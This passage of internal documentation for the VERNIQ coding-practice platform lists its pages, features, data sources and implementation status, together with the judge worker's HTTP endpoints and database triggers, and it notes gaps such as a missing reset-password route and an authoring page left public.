   - College selection (searchable dropdown from colleges.ts SEEDED_COLLEGES list)
   - "Create Account" button -> useAuth.signUpWithEmail()
   - "Sign In" link

### Interactions
- College search is client-side filter on SEEDED_COLLEGES array
- On success: navigate to /app/dashboard with welcome toast
- On error: inline error display + toast

### Status: [DONE] (no email verification enforcement shown in UI)

---

## 4. Forgot Password (/forgot-password)

- **File:** frontend/src/routes/ForgotPasswordView.tsx (4,985 bytes)
- **Access:** Public
- **Purpose:** Send password reset email

### Sections
- Email input + "Send Reset Link" button
- Calls supabase.auth.resetPasswordForEmail(email, { redirectTo: origin + '/reset-password' })
- Success state: instructional message shown

### Status: [DONE] - Note: /reset-password route does NOT exist in App.tsx. The reset link will 404.

---

## 5. Problems List (/problems)

- **File:** frontend/src/routes/ProblemsView.tsx (26,786 bytes)
- **Access:** Public
- **Purpose:** Browse, filter, sort, and paginate the full problem catalog

### Sections (in order)
1. **PageHeader** - Title "Problem Catalog", subtitle
2. **Filter Bar** - Search input, Difficulty dropdown (all/easy/medium/hard), Domain dropdown (dynamic), Status dropdown (all/todo/attempted/solved), Workflow dropdown (all/published/draft), Tag dropdown (dynamic), "Revision Only" toggle, Sort controls
3. **Stats Bar** - Total problems count, filtered count, page info
4. **Problem Table** - verniq_id, title, difficulty badge, tags, acceptance rate, status icon, revision bookmark icon, link to /problems/:slug
5. **Pagination** - Prev/Next + First/Last buttons; 50 per page

### Data Sources
- useProblems(): fetches all problems from Supabase in 4 parallel batches (ranges 0-999, 1000-1999, 2000-2999, 3000-3999)
- useUserProgress(): user's solved/revision status per problem (requires auth; empty for anonymous)

### Loading States
- Spinner shown while fetching
- Falls back to FALLBACK_PROBLEMS from curriculumData.ts if Supabase fails

### Status: [DONE] - All filtering and sorting is client-side (full dataset loaded into memory)

---

## 6. Problem Workspace (/problems/:slug)

- **File:** frontend/src/components/workspace/ProblemWorkspace.tsx (39,461 bytes)
- **Access:** Public (run code works without auth; submit requires auth for persistence)
- **Purpose:** Core coding interface for a specific problem

### Sections (in order)
1. **Top Toolbar**
   - Problem title + difficulty badge
   - Language selector dropdown
   - Reset code button
   - Format code button
   - Copy code button
   - Download code button
   - Open file button
   - Share button
   - Fullscreen toggle
   - Autosave status badge (#autosave-status)
   - Submit button (primary CTA)
2. **Split Pane** - Left: Monaco editor (8 cols); Right: Problem description + test case console (4 cols)
3. **Left: Monaco Code Editor** - from MonacoCodeEditor component; language-aware; autosave on change
4. **Right: Problem description panel** (tabs: Description, Examples, Constraints, Submissions)
   - Description tab: problem statement in markdown (rendered as HTML)
   - Examples tab: sample input/output pairs
   - Constraints tab: constraint markdown
   - Submissions tab: submission history list
5. **Test Case Console** - TestCaseConsole.tsx (37KB) - Run Code / Submit tabs; verdict display; test case results; failed test case details; telemetry display

### Data Sources
- useProblemBySlug(slug): fetches full problem detail including starter_templates, test_cases (sample only), tags
- useAuth(): user session for submit persistence
- useAutosave(): localStorage + Supabase draft persistence
- submitSolution() / runCode() from submissionService.ts

### Status: [DONE] - Core path works; submission history tab is basic list

---

## 7. Standalone IDE (/ide)

- **File:** frontend/src/routes/StandaloneIdeView.tsx (33,281 bytes)
- **Access:** Public (no auth required)
- **Purpose:** Multi-tab scratchpad IDE for arbitrary code execution

### Sections
1. **Top Bar with Tab Strip** - Multi-tab management (add/close/switch); language selector; autosave badge; format/reset/copy/download buttons; Vault save button; Fullscreen toggle; Run Code button
2. **Monaco Editor** - Full-width left panel (65%)
3. **Right Panel** - Stdin input, execution output, telemetry

### Key Features (as of latest commit)
- Tabs persist across browser refresh via ideDraftService.ts (localStorage)
- beforeunload flush listener
- 5 languages: java, python, cpp, typescript, go
- Multi-tab: add/close tabs; state per tab

### Status: [DONE] (autosave just fixed in commit c5094fa)

---

## 8. Dashboard (/app/dashboard)

- **File:** frontend/src/routes/DashboardView.tsx (23,118 bytes)
- **Access:** Protected
- **Purpose:** Authenticated user home page

### Sections (in order)
1. **Command Greeting** - Time-sensitive greeting (morning/afternoon/evening)
2. **Stats Row** - Streak (from telemetry or profile), Problems Solved (from user_problem_progress count), Campus Rank (formula estimate), Score
3. **Active Sprint Banner** - ActiveSprintBanner component; shows current sprint name, end date, task completion progress; link to /app/plan
4. **Problem of the Day Card** - ProblemOfTheDayCard; fetches from problem_of_the_day table; shows title, difficulty, bonus points; "Solve Today's Problem" button -> /problems/:slug
5. **Today's Sprint Tasks** - List of tasks scheduled for today from sprint_tasks; checkmark completion
6. **Revision Due** - Items from user_revision_items where next_review_at <= today; "Review" button -> /app/revision
7. **Category Progress** - CategoryProgressModule; shows solved count by DSA category

### Data Sources
- useAuth(): profile, user
- useUserTelemetry(): streak, solve counts
- supabase.from('study_sprints'): active sprint
- supabase.from('sprint_tasks'): today's tasks
- supabase.from('user_revision_items'): due reviews
- supabase.from('problem_of_the_day'): POTD

### Status: [DONE] for core, [PARTIAL] for POTD (points not awarded on solve)

---

## 9. Study Plan (/app/study-plan)

- **File:** frontend/src/routes/StudyPlanView.tsx (59,547 bytes)
- **Access:** Protected
- **Purpose:** Generate and manage a personalized 30-day study schedule

### Sections
1. **Goal Selection** - 4 goal cards: Product SDE, FAANG/Top Tier, Core CS Foundations, Campus Placement
2. **Plan Configuration** - Target date picker, daily minutes slider
3. **Plan Calendar** - Weekly calendar grid view; problems scheduled per day; navigation
4. **Task List** - Today's tasks with status (pending/completed/skipped); complete/skip buttons
5. **Plan Summary** - Total problems, completion %, days remaining

### Interactions
- Plan generation: Pure frontend algorithm - filters FALLBACK_PROBLEMS or Supabase problems by difficulty ratios per goal, distributes over days
- Plan CRUD: supabase.from('user_study_plans') and supabase.from('user_study_plan_tasks')
- Task completion: updates user_study_plan_tasks.status

### Status: [PARTIAL] - Plan creation and task tracking work; plan generation is frontend-only with no AI

---

## 10. Sprint Plan (/app/plan)

- **File:** frontend/src/routes/SprintPlanView.tsx (24,544 bytes)
- **Access:** Protected
- **Purpose:** Manage active 7-day sprint with daily task view

### Sections
1. **Sprint Header** - Sprint name, dates, progress bar
2. **Week Navigation** - Prev/Next week arrows
3. **Daily Task Grid** - Days of the week; tasks per day; task cards
4. **Task Cards** - SprintCard component; problem title, type, estimated minutes, complete/skip buttons
5. **Rebalance Modal** - RebalanceModal component; redistribute incomplete tasks

### Data Sources
- supabase.from('study_sprints'): active sprint for user
- supabase.from('sprint_tasks'): all tasks for sprint with problem details

### Status: [PARTIAL] - Sprint creation wizard is in StudyPlanView; sprint task management works

---

## 11. Diagnostic Assessment (/app/diagnostic)

- **File:** frontend/src/routes/DiagnosticView.tsx (33,105 bytes)
- **Access:** Protected
- **Purpose:** 20-question MCQ assessment to gauge DSA mastery across 10+ categories

### Sections
1. **Intro Screen** - Description, instructions, "Begin Assessment" button
2. **Question Cards** - One question at a time; topic label; question text; optional code snippet; 4 answer choices (A/B/C/D)
3. **Navigation** - Prev/Next; progress bar
4. **Results Screen** - Score, confidence level (novice/intermediate/proficient/master) per category, category radar chart (CSS-based), recommended next steps

### Data Sources
- DIAGNOSTIC_QUESTIONS: hardcoded array of 20 Question objects in DiagnosticView.tsx (lines 35+)
- supabase.from('user_diagnostics'): stores per-tag mastery scores (attempts to upsert on completion)

### Status: [PARTIAL] - Questions are hardcoded; backend persistence exists but is inconsistently used

---

## 12. Leaderboard (/leaderboard)

- **File:** frontend/src/routes/LeaderboardView.tsx (22,704 bytes)
- **Access:** Public
- **Purpose:** Global and campus-league ranking

### Sections
1. **Tab Strip** - "Global Rankings" / "Campus League" / "Your College"
2. **Global Tab** - Search bar; table of engineers ranked by score (from Supabase profiles)
3. **Campus League Tab** - Table of colleges ranked by total_score; built from seeded SEEDED_COLLEGES data (not a real DB query)
4. **Your College Tab** - Shows users from same college as logged-in user

### Data Sources
- supabase.from('profiles'): all users ordered by score for global leaderboard
- SEEDED_COLLEGES (frontend/src/lib/colleges.ts): static seeded data for campus tab
- User's college_id from useAuth().profile

### Status: [PARTIAL] - Global works; campus league uses fake seeded data; no pagination

---

## 13. Roadmaps (/roadmaps and /roadmaps/:slug)

- **File:** frontend/src/routes/RoadmapsView.tsx (12,422 bytes)
- **Access:** Public
- **Purpose:** Browse and navigate structured learning roadmaps

### Sections
1. **Roadmap List** - Cards for each published roadmap (fetched from Supabase roadmaps table)
2. **Roadmap Detail** (when slug selected) - Steps list, expand/collapse topics under each step, problems under each topic

### Data Sources
- useRoadmap(slug): fetches from Supabase roadmaps table with steps and topics

### Status: [PARTIAL] - UI complete; data density in Supabase is unknown from code alone

---

## 14. Revision (/app/revision)

- **File:** frontend/src/routes/RevisionView.tsx (33,470 bytes)
- **Access:** Protected
- **Purpose:** Spaced repetition review queue for bookmarked problems

### Sections
1. **Review Queue** - Problems due for review sorted by next_review_at
2. **Card Flip UI** - Front: problem title and description; Back: hints/solution approach
3. **Interval Buttons** - "Too Easy" / "Got It" / "Struggled" to adjust next_review_at
4. **Progress Stats** - Reviewed today count; due remaining

### Data Sources
- supabase.from('user_revision_items'): items where next_review_at <= today
- supabase.from('problems'): problem details for each revision item

### Status: [PARTIAL] - Core flow works; no automated SRS algorithm (Anki-style); intervals manually set

---

## 15. CodeSpace (/app/codespace)

- **File:** frontend/src/routes/CodeSpaceView.tsx (26,046 bytes)
- **Access:** Protected
- **Purpose:** Personal cloud code vault; multi-file code snippets

### Sections
1. **Sidebar** - List of saved codespaces; search; filters; pin toggle
2. **Editor** - Monaco editor for selected codespace; language selector; save/delete buttons; stdin panel
3. **Header** - Title edit; tag management; pin button

### Data Sources
- supabase.from('user_codespaces'): CRUD operations

### Status: [DONE]

---

## 16. NoteSpace (/app/notespace)

- **File:** frontend/src/routes/NoteSpaceView.tsx (30,571 bytes)
- **Access:** Protected
- **Purpose:** Personal markdown notes linked to problems

### Sections
1. **Sidebar** - Note list; search; star filter; problem-linked filter
2. **Editor** - Split markdown editor + preview; star button; problem link
3. **Header** - Title edit

### Data Sources
- supabase.from('user_notes'): CRUD operations

### Status: [DONE]

---

## 17. Profile (/app/profile or /profile)

- **File:** frontend/src/routes/ProfileView.tsx (5,979 bytes)
- **Access:** Protected
- **Purpose:** Public-facing profile summary

### Sections
1. Avatar display (initials fallback if no avatar_url)
2. Full name, username, college
3. Stats: score, problems solved, streak
4. Social links (GitHub, LinkedIn)
5. Bio text

### Data Sources
- useAuth().profile

### Status: [DONE] - No avatar upload; social links not validated

---

## 18. Settings (/app/settings)

- **File:** frontend/src/routes/ProfileSettingsView.tsx (21,290 bytes)
- **Access:** Protected
- **Purpose:** Edit user profile and preferences

### Sections
1. **Personal Info** - Full name, username, bio
2. **Social Links** - GitHub username, LinkedIn URL, LeetCode username
3. **College Affiliation** - Searchable dropdown
4. **Editor Preferences** - Preferred language selector, tab size (2/4/8)
5. **Account Actions** - Sign Out button

### Interactions
- All fields save via updateProfile() -> supabase.from('profiles').update()
- Tab size and preferred language stored in profile.tab_size and profile.preferred_language

### Status: [DONE] - No avatar upload; no password change UI

---

## 19. Problem Authoring CMS (/authoring or /app/authoring)

- **File:** frontend/src/routes/ProblemAuthoringView.tsx (63,268 bytes)
- **Access:** Public at /authoring (SECURITY ISSUE), Protected at /app/authoring
- **Purpose:** Full problem lifecycle management CMS

### Sections
1. **Navigation Mode Toggle** - Dashboard / Queue / Studio
2. **Dashboard Tab** - ProductionDashboardTab component: pipeline metrics, batch list, progress charts
3. **Queue Tab** - AuthoringQueueTab component: paginated problem list with workflow status filters
4. **Studio** - Activated by selecting a problem from Queue
   - Content tab: Edit title, description, constraints, input/output format, examples, starter templates (per language), difficulty, domain, tags
   - Provenance tab: Add/edit source references, license info, attribution
   - Technical Review tab: 9-point checklist (statement_consistent, examples_correct, constraints_consistent, etc.), review notes, pass/fail
   - Revisions tab: Revision history list with diff view

### Data Sources
- supabase.from('problems'): catalog
- supabase.from('problem_content_revisions'): revision history
- supabase.from('problem_provenance_sources'): IP/license sources
- supabase.from('problem_technical_reviews'): review checklist records
- supabase.from('authoring_batches'): batch management
- supabase.from('batch_problem_items'): items per batch

### Status: [PARTIAL] - Full UI pipeline; AI-assisted authoring is UI-only; no real AI backend connected

---

## 20. Foundation Page (/foundation)

- **File:** frontend/src/routes/FoundationView.tsx (33,916 bytes)
- **Access:** Public
- **Purpose:** Static documentation about VERNIQ's pedagogical philosophy, learning methodology, curriculum design

### Status: [DONE] - Static content

---

## 21. Architecture Page (/architecture)

- **File:** frontend/src/routes/ArchitectureView.tsx (6,485 bytes)
- **Access:** Public
- **Purpose:** Static system architecture diagram and description

### Status: [DONE] - Static content

---

## 22. Courses Page (/courses)

- **File:** frontend/src/routes/CoursesView.tsx (5,479 bytes)
- **Access:** Public
- **Purpose:** Course catalog placeholder

### Status: [UI-ONLY] - Stub page; no actual course data

---

## 23. Placeholder Routes (WorkspaceSubView)

Routes that render WorkspaceSubView with "coming soon" messages:
- /app/learn - "Curriculum Sync In Progress" (Phase 2)
- /app/practice - "Code Judge Standby" (Phase 3)
- /app/contests - "No Live Contests" (Phase 4)
- /app/projects - "Capstone Projects Locked" (Phase 4)
- /app/ai-mentor - "AI Service Standby" (Phase 5)
- /app/admin - "Platform Telemetry Nominal" (Phase 1 - Admin)

**File:** frontend/src/routes/WorkspaceSubView.tsx (1,866 bytes)

### Status: [PLANNED] - All placeholders

---

## 24. 404 Not Found

- **File:** frontend/src/routes/NotFoundView.tsx (685 bytes)
- **Access:** Public (catch-all route)
- **Status:** [DONE] - Basic 404 message + back button

---

## 25. Dashboard Stub (/app/dashboard redirect flows)

DashboardStubView.tsx exists but is not used in App.tsx routing. It appears to be an old/unused file.

---

## Missing / Non-Existent Pages

- /reset-password: Supabase sends reset emails to this URL but the route does NOT exist in App.tsx. Password reset will show a 404.
- /pricing: No pricing page
- /checkout: No checkout page
- /admin/: No real admin panel; only placeholder
- /community: No community page
- /forum: No forum page
- /mock-interview: No mock interview page


---

<!-- ============================================================ -->
<!-- PART: 04_features.md -->
<!-- ============================================================ -->

# 04 — Features

---

## 1. DSA Problem Practice

### Description
Users can browse a catalog of 3,392 DSA problems organized by difficulty, domain, and topic tags. Each problem has a dedicated workspace with a Monaco code editor.

### User Flow
1. Navigate to /problems
2. Filter by difficulty/domain/tag/status
3. Click problem title -> /problems/:slug
4. Read problem description, constraints, examples
5. Write solution in Monaco editor (language selector)
6. Click "Run Code" -> executes against sample test cases
7. Click "Submit" -> executes against full canonical test suite
8. View verdict and test case results

### Frontend Files
- frontend/src/routes/ProblemsView.tsx - catalog list
- frontend/src/components/workspace/ProblemWorkspace.tsx - workspace
- frontend/src/components/workspace/TestCaseConsole.tsx - results panel
- frontend/src/components/workspace/SplitPane.tsx - layout
- frontend/src/hooks/useProblems.ts - data fetching
- frontend/src/hooks/useProblemBySlug.ts - detail fetching
- frontend/src/hooks/useUserProgress.ts - solve status
- frontend/src/lib/draftService.ts - autosave

### Backend Files
- backend/judge/src/worker.py - HTTP server + Supabase poller
- backend/judge/src/runner/sandbox.py - execution
- backend/judge/src/runner/harness.py - driver injection
- backend/judge/src/runner/profiles.py - language profiles

### DB Tables
- problems (catalog)
- test_cases (sample + canonical)
- submissions (verdict history)
- user_problem_progress (solved/attempted status)
- problem_code_drafts (cloud draft autosave)

### Business Rules
- Run Code: executes with stdin only; no canonical test cases; no auth required
- Submit: loads canonical test cases from Supabase using service_role key (backend only); requires user auth for persistence
- verdict persistence is async/background; does not block UI
- First accepted submission upserts user_problem_progress with status='solved'

### Status: [DONE] for run and submit; [PARTIAL] for submission history list

---

## 2. Online Code Judge

### Description
Python-based HTTP judge worker that compiles and runs user code against test cases in isolated temp directories.

### User Flow
1. Frontend calls POST /execute on judge worker
2. Worker injects harness (driver code) around user's solution
3. Compiles if necessary (Java, C++)
4. Runs each test case sequentially via subprocess
5. Compares output; returns structured JSON result

### Frontend Files
- frontend/src/lib/submissionService.ts - runCode(), submitSolution()

### Backend Files
- backend/judge/src/worker.py - HTTP handler
- backend/judge/src/runner/sandbox.py - SandboxRunner.execute()
- backend/judge/src/runner/harness.py - inject_harness()
- backend/judge/src/runner/profiles.py - LanguageProfile
- backend/judge/src/runner/cache.py - CompilationCache
- backend/judge/src/runner/comparator.py - compare_outputs()

### Supported Languages
| Language | Compile | Run | Time Multiplier |
|---|---|---|---|
| C++ | g++ -O2 -std=c++17 | ./solution | 1.0x |
| Java | javac | java -XX:+TieredCompilation -XX:TieredStopAtLevel=1 -Xmx256m -Xss64m | 1.5x |
| Python | none | python3 -u solution.py | 2.0x |
| TypeScript | none | node --experimental-strip-types solution.ts | 1.5x |
| Go | none | go run main.go | 1.5x |

### Verdicts
accepted, wrong_answer, time_limit_exceeded, memory_limit_exceeded, compilation_error, runtime_error, cancelled, internal_error

### Status: [DONE] - Note: memory measurement is SIMULATED (formula: min(duration_ms * 45 + 1420, max_mb * 1024)), not actual process memory

---

## 3. Autosave (Problem Workspace)

### Description
Dual-layer persistence: localStorage (instant) + Supabase cloud (async). Scoped by (user, problem, language).

### Frontend Files
- frontend/src/lib/draftService.ts - getLocalDraft(), saveLocalDraft(), loadCloudDraft(), saveCloudDraft()
- frontend/src/hooks/useAutosave.ts - 500ms debounced autosave hook
- frontend/src/components/workspace/ProblemWorkspace.tsx - SaveStatus badge

### DB Tables
- problem_code_drafts

### Business Rules
- Debounced 500ms for typing
- Immediate flush on beforeunload
- Anonymous drafts migrate to user-scoped keys on login
- Stale revision guard prevents old saves overwriting newer ones

### Status: [DONE]

---

## 4. Standalone IDE

### Description
Multi-tab scratchpad IDE with no problem context. Code persists to localStorage.

### Frontend Files
- frontend/src/routes/StandaloneIdeView.tsx
- frontend/src/lib/ideDraftService.ts

### Business Rules
- Up to N tabs (no limit enforced)
- Each tab has: id, title, language, code, stdin
- State scoped by userId or 'anonymous'
- 500ms debounced autosave; immediate on structural changes

### Status: [DONE] (autosave just fixed)

---

## 5. Spaced Revision System

### Description
Users bookmark problems for later review. Review queue shows items due based on next_review_at date.

### Frontend Files
- frontend/src/routes/RevisionView.tsx
- frontend/src/hooks/useUserProgress.ts (toggleRevision)

### DB Tables
- user_revision_items (user_id, problem_id, interval_days, next_review_at, is_reviewed)

### Business Rules
- Bookmark adds item to user_revision_items with interval_days=1
- User manually adjusts interval from revision view ("Too Easy" increases, "Struggled" resets)
- No automatic SM-2 or Anki algorithm implemented

### Status: [PARTIAL] - Manual interval only; no automated SRS

---

## 6. Study Plan Generator

### Description
Generates a 30-day personalized study schedule by distributing problems across days based on goal type and daily minutes.

### Frontend Files
- frontend/src/routes/StudyPlanView.tsx (59KB)

### DB Tables
- user_study_plans
- user_study_plan_tasks

### Business Rules
- 4 goal templates: product_sde, faang_top_tier, core_cs_foundations, campus_placement
- Difficulty ratios per goal (e.g., faang: 20% easy, 60% medium, 20% hard)
- Problems selected from full problem catalog filtered by difficulty ratio
- Distribution is pure frontend JS - no AI involved despite UI suggesting "AI-Generated"

### Status: [PARTIAL] - Functional but labeled "AI-Generated" when it is a deterministic algorithm

---

## 7. Sprint Plan

### Description
Weekly sprint management: 7-day focused practice sprints with specific daily tasks.

### Frontend Files
- frontend/src/routes/SprintPlanView.tsx
- frontend/src/components/planner/SprintCard.tsx
- frontend/src/components/planner/RebalanceModal.tsx

### DB Tables
- study_sprints
- sprint_tasks

### Status: [PARTIAL] - Task completion and week navigation work; rebalance modal is UI

---

## 8. Diagnostic Assessment

### Description
20-question MCQ test to assess DSA skill levels across categories. Returns mastery scores per category.

### Frontend Files
- frontend/src/routes/DiagnosticView.tsx (33KB)

### DB Tables
- user_diagnostics (attempts upsert on completion)

### Business Rules
- 20 hardcoded questions across: Arrays, Two Pointers, Sliding Window, Binary Search, Linked Lists, Stacks/Queues, Trees, Graphs, Dynamic Programming, Greedy
- Scores confidence_level: novice (<40%), intermediate (40-69%), proficient (70-84%), master (85%+)
- Results displayed with per-category bars and overall score

### Status: [PARTIAL] - Works end-to-end but questions are static; persistence to user_diagnostics is inconsistent

---

## 9. Leaderboard

### Description
Global and campus-league rankings.

### Frontend Files
- frontend/src/routes/LeaderboardView.tsx
- frontend/src/lib/colleges.ts

### DB Tables
- profiles (global leaderboard)
- colleges (campus league - mostly seeded data)

### Status: [PARTIAL] - Global works; campus uses seeded static data; no pagination

---

## 10. Roadmaps

### Description
Structured learning paths with steps, topics, and linked problems.

### Frontend Files
- frontend/src/routes/RoadmapsView.tsx
- frontend/src/hooks/useRoadmap.ts

### DB Tables
- roadmaps
- roadmap_steps
- roadmap_topics
- roadmap_topic_problems (junction)
- problems

### Status: [PARTIAL] - UI complete; actual roadmap content data density in Supabase unknown

---

## 11. CodeSpace (Cloud Code Vault)

### Description
Personal multi-file code vault stored in Supabase. Users save code snippets with language, title, stdin, tags.

### Frontend Files
- frontend/src/routes/CodeSpaceView.tsx (26KB)

### DB Tables
- user_codespaces

### Business Rules
- CRUD operations; pin toggle; tag management; Monaco editor per entry
- Can open saved codespace in IDE via navigation with state

### Status: [DONE]

---

## 12. NoteSpace (Markdown Notes)

### Description
Personal markdown notes optionally linked to problems.

### Frontend Files
- frontend/src/routes/NoteSpaceView.tsx (30KB)

### DB Tables
- user_notes

### Status: [DONE]

---

## 13. Problem Authoring CMS

### Description
Internal CMS for problem creation, review, and publication pipeline. 7-step workflow from draft to published.

### Frontend Files
- frontend/src/routes/ProblemAuthoringView.tsx (63KB)
- frontend/src/components/authoring/ProductionDashboardTab.tsx
- frontend/src/components/authoring/AuthoringQueueTab.tsx

### DB Tables
- problems
- problem_content_revisions
- problem_provenance_sources
- problem_technical_reviews
- authoring_batches
- batch_problem_items

### Business Rules
- Workflow: draft -> content_authoring -> content_review -> technical_review -> provenance_review -> judge_ready -> published
- Technical review has 9-point checklist
- Provenance tracks IP/license for each source

### Status: [PARTIAL] - Full UI exists; AI-assisted authoring is placeholder; batch operations UI-only

---

## 14. Progress Tracking (Gamification)

### Description
Score tracking, streak counting, problems solved count.

### Frontend Files
- frontend/src/hooks/useUserTelemetry.ts (9.9KB)

### DB Tables
- profiles (score, problems_solved_count, current_streak, max_streak columns)
- user_problem_progress (for counting solved problems)

### Business Rules
- Score incremented on accepted submission (not visible in submissionService code - may be a Supabase trigger)
- Streak count tracked in profiles
- Campus rank is a formula estimate: max(1, 100 - floor(score/50))

### Status: [PARTIAL] - Score/streak may rely on DB triggers not visible in code

---

## Features NOT Implemented (Evidence from codebase)

| Feature | Evidence of Absence |
|---|---|
| AI Mentor | backend/ai/ has only README.md and requirements.txt; /app/ai-mentor is a placeholder |
| Mock Interview | No files; no route |
| Payments | No Razorpay/Stripe code anywhere; no /pricing route |
| Real-time Contests | /app/contests renders WorkspaceSubView placeholder |
| Community/Forums | No route, no component, no DB tables visible |
| Admin Panel | /app/admin renders WorkspaceSubView placeholder |
| Email Verification | No /verify-email route; no verification enforcement in ProtectedRoute |
| Password Reset | /reset-password route missing from App.tsx |
| File Upload / Avatar | No storage bucket usage found in frontend code |
| Notifications System | No notification tables or UI visible |


---

<!-- ============================================================ -->
<!-- PART: 05_backend_api.md -->
<!-- ============================================================ -->

# 05 - Backend API & Services

## Overview & Architecture

VERNIQ's backend architecture diverges from traditional REST/GraphQL monoliths:
1. **Client-to-Database Direct Layer (PostgREST):** The frontend communicates directly with PostgreSQL via Supabase's auto-generated PostgREST HTTP API and Supabase Auth.
2. **Dedicated Code Judge HTTP & Polling Worker:** A standalone Python service (`backend/judge/src/worker.py`) that exposes a native HTTP microservice on port 8080 (default) and concurrently polls the `submissions` table in Supabase.
3. **AI Mentor & Mock Interview Microservice:** (`backend/ai/`): [PLANNED] / [SKELETON ONLY]. Only `README.md` and `requirements.txt` exist; zero HTTP routes or FastAPI instances are implemented.
4. **Backend CLI Subsystems:** Modular Python engines for Problem Catalog Ingestion (`backend/importer/`), Batch AI Authoring (`backend/authoring/`), and Roadmap Progress Calculation (`backend/roadmap/`).

---

## HTTP Endpoints Matrix

### Judge Worker HTTP Service (`backend/judge/src/worker.py`)

The judge worker runs a built-in Python `http.server.HTTPServer` using `JudgeRequestHandler`.

#### 1. `GET /health` (or `GET /`)
- **Status:** [DONE]
- **File:** [`backend/judge/src/worker.py:258-268`](file:///c:/Users/LOQ/Desktop/VERNIQ/backend/judge/src/worker.py#L258-L268)
- **Purpose:** Healthcheck and liveness probe for load balancers and orchestrators.
- **Auth Required:** None (Public).
- **Request Headers / Query:** None.
- **Response Schema (`application/json`):**
  ```json
  {
    "status": "healthy",
    "worker": "judge-worker-1",
    "concurrency": 8,
    "cache_enabled": true,
    "time": "2026-10-04T06:23:45.123456+00:00"
  }
  ```
- **Error Codes:** 500 on unhandled worker failure.
- **Rate Limiting:** None.

#### 2. `GET /telemetry`
- **Status:** [DONE]
- **File:** [`backend/judge/src/worker.py:270-279`](file:///c:/Users/LOQ/Desktop/VERNIQ/backend/judge/src/worker.py#L270-L279)
- **Purpose:** Provides operational metrics on memory cache utilization and worker capacity.
- **Auth Required:** None (Public).
- **Response Schema (`application/json`):**
  ```json
  {
    "worker_id": "judge-worker-1",
    "concurrency": 8,
    "cache_entries": 14,
    "max_cache_entries": 500
  }
  ```
- **Error Codes:** None.
- **Rate Limiting:** None.

#### 3. `POST /cancel`
- **Status:** [DONE]
- **File:** [`backend/judge/src/worker.py:286-307`](file:///c:/Users/LOQ/Desktop/VERNIQ/backend/judge/src/worker.py#L286-L307)
- **Purpose:** Immediately aborts an in-flight compilation or execution process tree for a given submission ID.
- **Auth Required:** None (Unauthenticated).
- **Request Schema (`application/json`):**
  ```json
  {
    "execution_id": "sub-1234-uuid"
  }
  ```
- **Validation:** Must supply `execution_id` or `submission_id`.
- **Response Schema (`application/json`):**
  ```json
  {
    "status": "ok",
    "cancelled": true,
    "execution_id": "sub-1234-uuid"
  }
  ```
- **Error Codes:**
  - `400 Bad Request`: `{"error": "Invalid JSON"}` or `{"error": "Missing execution_id"}`.
- **Rate Limiting:** None.

#### 4. `POST /execute`
- **Status:** [DONE]
- **File:** [`backend/judge/src/worker.py:309-405`](file:///c:/Users/LOQ/Desktop/VERNIQ/backend/judge/src/worker.py#L309-L405)
- **Purpose:** Core execution gateway. Receives source code and test cases (or fetches canonical suite from Supabase via `service_role`), executes within sandboxed runner, and returns execution verdicts and telemetry.
- **Auth Required:** None (Unauthenticated direct access allowed; relies on CORS and network perimeter).
- **Request Schema (`application/json`):**
  ```json
  {
    "execution_id": "optional-uuid",
    "language": "python",
    "source_code": "def solution(): ...",
    "stdin_input": "optional raw stdin",
    "is_custom_run": false,
    "problem_id": "optional-uuid-for-canonical-fetching",
    "mode": "RUN | SUBMIT",
    "test_cases": [
      {
        "input": "2 7 11 15\n9",
        "expected_output": "0 1",
        "is_sample": true
      }
    ]
  }
  ```
- **Execution Lifecycle & Validation:**
  - If `test_cases` are provided, runs against provided cases.
  - If `problem_id` is passed and `mode == "SUBMIT"`, fetches hidden canonical test suite from Supabase database via `service_role` key (bypassing client-side test exposure).
  - Validates language against supported set: `python`, `cpp`, `java`, `typescript`, `go`.
  - Dispatches to `concurrent.futures.ThreadPoolExecutor(max_workers=concurrency)`.
  - Timeout calculation: `pool_timeout = max(30.0, min(300.0, len(test_cases) * 0.8 + 25.0))`.
- **Response Schema (`application/json`):**
  ```json
  {
    "verdict": "accepted | wrong_answer | time_limit_exceeded | memory_limit_exceeded | compilation_error | runtime_error | internal_error",
    "runtime_ms": 142,
    "memory_kb": 24512,
    "stdout_output": "Optional stdout",
    "stderr_output": "Optional stderr",
    "compile_output": "Compiler error message if compilation failed",
    "test_cases_passed": 150,
    "total_test_cases": 150,
    "first_failed_test": {
      "case_index": 4,
      "input": "1000",
      "expected_output": "42",
      "actual_output": "0"
    },
    "sample_test_results": [
      {
        "input": "...",
        "expected": "...",
        "actual": "...",
        "passed": true
      }
    ],
    "telemetry": {
      "execution_id": "exec-1234",
      "request_received_at": "2026-10-04T06:23:45.000Z",
      "job_queued_at": "2026-10-04T06:23:45.002Z",
      "compile_ms": 45,
      "total_ms": 230,
      "cached_compilation": true
    }
  }
  ```
- **Error Codes:**
  - `400 Bad Request`: Invalid JSON.
  - `200 OK`: Even compilation errors or runtime errors return HTTP 200 with structured verdict `compilation_error` or `runtime_error`.

#### 5. `OPTIONS / *` (CORS Preflight)
- **Status:** [DONE]
- **File:** [`backend/judge/src/worker.py:250-256`](file:///c:/Users/LOQ/Desktop/VERNIQ/backend/judge/src/worker.py#L250-L256)
- **Response Headers:**
  - `Access-Control-Allow-Origin: *`
  - `Access-Control-Allow-Methods: GET, POST, OPTIONS`
  - `Access-Control-Allow-Headers: Content-Type, Authorization`

---

## Supabase PostgreSQL Functions & Database Triggers

All business logic triggers and functions run directly inside PostgreSQL.

| Function | Trigger / Invocation | Purpose | Security Context | Migration File | Status |
|---|---|---|---|---|---|
| `public.handle_updated_at()` | BEFORE UPDATE on tables | Automatically updates `updated_at = NOW()` | `SECURITY DEFINER` | `20261001000000` | [DONE] |
| `public.prevent_profile_role_update()` | BEFORE UPDATE OF role ON `public.profiles` | Blocks non-service-role users from escalating privileges to `admin` | `SECURITY DEFINER` | `20261001000001` | [DONE] |
| `public.handle_new_user()` | AFTER INSERT ON `auth.users` | Creates corresponding row in `public.profiles` with default role `student` | `SECURITY DEFINER` | `20261001000001` / `05` | [DONE] |
| `public.sync_college_stats()` | AFTER INSERT OR UPDATE ON `public.profiles` | Recomputes student count and aggregate solved problem counts per college | `SECURITY DEFINER` | `20261001000002` / `05` | [DONE] |
| `public.handle_submission_completion()` | AFTER INSERT OR UPDATE OF verdict ON `public.submissions` | Increments `profiles.problems_solved` and updates `user_problem_progress` when verdict is `accepted` | `SECURITY DEFINER` | `20261001000004` | [DONE] |

### Code References for Core Functions:
- **Role Escalation Protection (`prevent_profile_role_update`):**
  ```sql
  IF NEW.role IS DISTINCT FROM OLD.role THEN
